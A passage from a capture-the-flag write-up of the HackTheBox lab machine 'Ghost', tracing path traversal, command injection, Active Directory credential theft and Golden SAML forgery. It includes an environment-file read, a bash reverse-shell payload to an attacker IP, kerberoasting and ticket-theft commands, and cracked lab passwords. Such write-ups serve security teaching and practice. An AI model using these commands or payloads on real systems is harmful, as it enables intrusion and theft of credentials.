http://ghost.htb:8008/ghost/api/content/posts/?key=a5af628828958c976a3b6cc81a&extra=../../../../../../etc/passwd
```



And yeah, the path traversal works. The README said the `DEV_INTRANET_KEY` is stored as an `ENV` variable, so I can just read the env from `/proc/self/environ`:

```bash
http://ghost.htb:8008/ghost/api/content/posts/?key=a5af628828958c976a3b6cc81a&extra=../../../../../../proc/self/environ
```



And there's our `DEV_INTRANET_KEY`, `!@yqr!X2kxmQ.@Xe`. Next question is where do I use it. Back to the README, it says the API key is used for some features still in development, so I need to find which features and how to reach them with the key. There's another repo dedicated to the intranet.



Maybe here we find the endpoint where we'll use the API key. The README mentions an endpoint `http://intranet.ghost.htb/api-dev` and says that until dev is done you can use this. After inspecting the repo I found this file on the backend.



Here we see you can pass `DEV_INTRANET_KEY` in the header to reach resources that are only accessible with the API key, so I need to find which endpoint to hit. I found the file inside the `dev` folder.



And looking at the code, I spot a potential command injection. Sweet, so let's hit `api-dev/scan`, provide the API key and see what we can do.



Command injection confirmed on that endpoint. Just to recap how I got here: I found the API key, got access to the dev environment which only has some features, and one of them scans URLs on the internet. At first I thought maybe SSRF, but after reading the code I saw it was command injection. So I send a POST to `/api-dev/scan` with the payload in the body and get a shell. Here's the payload I crafted:

```json
{"url":"; bash -c 'bash -i >& /dev/tcp/10.10.16.100/4444 0>&1'"}
```

With a listener on my attack host, I caught the shell.



## From the container to the domain

We're in, but apparently inside a Linux docker container, and lucky us we're root. Looking at the env variables I found some interesting ones.



The `LDAP_BIND_PASSWORD` is the password of the service account the intranet uses to bind to AD, so it's a real domain account. Let's check if those creds are valid against `intranet_principal` (one of the users I found earlier).



And yes, `intranet_principal:He!KA9oKVT3rL99j` is a valid domain user. Let's see what it can do. First I enumerated the SMB shares, could access them but nothing useful, so for a quick win I went for kerberoasting:

```bash
nxc ldap ghost.htb -u intranet_principal -p 'He!KA9oKVT3rL99j' --kerberoasting
```

And got a service hash for the `adfs_gmsa` account.



I tried to crack it but no luck. Maybe I can read the cleartext password instead.



But no, only `justin.bradley` has rights to it. So I went back to the Linux host, because I'd been digging a lot without finding anything, the typical rabbit hole on these Insane boxes. Going to the `root` directory I found a `.ssh` folder, and inside a `configmaster` folder, which had a cached session for `florence.ramirez` on the `dev-workstation`.



So this means we can just SSH to that machine without any creds:

```bash
ssh florence.ramirez@ghost.htb@dev-workstation "cat /tmp/krb5cc_50 | base64 -w 0; echo"
```

With this command we steal the Kerberos ticket of that user.



The ticket is base64 encoded, so let's bring it over to our side.



Now the ticket is on our side. Quick recap of what I did: I found a cached SSH session for that user, SSH'd to the workstation, stole the Kerberos ticket, encoded it to base64 to make it easier to move, brought it to my machine, saved it as a `.ccache` and loaded it so I could use it. Let's confirm it's valid.



Valid, and the ticket works. Let's run BloodHound to see what this user can do. But BloodHound didn't tell us anything, so after a long time I went back to the intranet portal and found something odd.



## Coercing justin.bradley

Look, it seems some user is trying to reach `bitbucket.ghost.htb`. What if I take that domain, point it to me, and when that user tries to connect I steal their hash? Let's see. I used bloodyAD to assign the DNS name to my IP.



Then I started Responder on my machine, and almost instantly, bamm.



I got the hash for `justin.bradley`, let's crack it.



Got the password, `justin.bradley:Qwertyuiop1234$$`, let's validate it.



Valid, nice. Remember earlier when I tried to read the gMSA password and it said only `justin.bradley` had the rights? Well, now I'm him. But first the user flag, so I logged in with evil-winrm and grabbed it:

```
6b3ccc488dc89539c4d2cf873c1fb268
```

And then, yeah, now I can read the gMSA password.



Let's check if it's valid using the hash only.



So we've got the creds for `adfs_gmsa$:48d391a3e1a9f83334f9e4b4cfdc5e42`, and it's valid.

## Golden SAML

Now we need to figure out the next step, what can the gMSA do? The account is `adfs_gmsa`, so it's the account for Active Directory Federation Services, which manages the passwords for that service. ADFS is Microsoft's SSO that issues SAML tokens for users so other services can trust them. So if I have the certificate signature I can forge a SAML token for whatever user I want, a Golden SAML, the equivalent of a Golden Ticket. The certificate lives in the ADFS config DB and the key to decrypt it lives in the AD, and the account with access to both is `adfs_gmsa`, which we just compromised.

So to craft a Golden SAML the ingredients I need are the token signing certificate (inside the ADFS config DB) and a DKM key. After some research I found [ADFSDump.exe](https://github.com/0xSs0rZ/ADFSDump/raw/refs/heads/main/ADFSDump.exe), which dumps everything we need. Since we have a shell as `adfs_gmsa`, we can run it there.



There's the token signing key and the DKM key. With these I can forge the ADFS token, so I found [ADFSpoof](https://github.com/mandiant/ADFSpoof).



I forged a Golden SAML. Now I need the endpoint to feed it. Recalling from earlier, the sign-in endpoint is `https://core.ghost.htb:8443/adfs/saml/postResponse`, so I used that.



And back on the webpage, we're in.



## MSSQL linked server → RCE

It's a page where I can run MSSQL queries, and look, there's another domain there called `corp.ghost.htb`, interesting. First let's see what we can do with MSSQL. I started with basic recon to see what privileges I have over the database.

```sql
SELECT SYSTEM_USER, IS_SRVROLEMEMBER('sysadmin');
```



Not much, so I started enumerating to see if I have any linked servers.

```sql
SELECT name, product, provider, data_source FROM sys.servers;
```

